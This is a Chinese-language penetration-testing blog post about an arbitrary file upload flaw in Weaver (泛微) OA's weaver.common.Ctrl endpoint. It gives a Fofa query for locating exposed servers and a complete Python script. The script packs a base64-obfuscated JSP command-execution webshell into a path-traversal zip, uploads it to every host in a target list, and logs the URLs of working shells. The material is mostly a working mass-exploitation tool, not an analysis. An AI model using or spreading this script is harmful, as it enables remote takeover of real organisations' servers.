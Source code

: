 ```yaml
---
title: 泛微OA weaver.common.Ctrl 任意文件上传漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 泛微OA
- 漏洞复现
- 文件上传
- 渗透测试
abbrlink: 20282
date: 2021-05-20 14:48:04
keywords:
summary:
img:
password:
---
```




### 声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。d



### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器



### Fofa

```bash
app="泛微-协同办公OA"
```





### 复现

漏洞路径为：

```bash
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```



查看发送的数据包：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa_wiershark.jpg)



使用POC成功上传文件：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa_shell.png)





贴上大佬的批量上传POC脚本(我改过的)：

```python
import zipfile
import random
import sys
import requests



def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)


def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
        with open("success_webshell.txt", "a+") as f2:
            f2.write(GetShellurl + "\n")
    else:
        print('未找到webshell利用失败')

def main():
    # # if (len(sys.argv) == 2):
    # #     url = sys.argv[1]
    #     GetShell(url)
    # else:
    #     print("python3 poc.py http://xx.xx.xx.xx")
    with open("fofa提取结果文件.txt", "r+") as f:
        lines = f.readlines()
        for line in lines:
            try:
                GetShell(line.strip())
            except Exception as e:
                pass


if __name__ == '__main__':
    main()
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/fwoa-py.png)







参考大佬文章链接：https://mp.weixin.qq.com/s/ePYRFPfu-pvWMKSiffporA



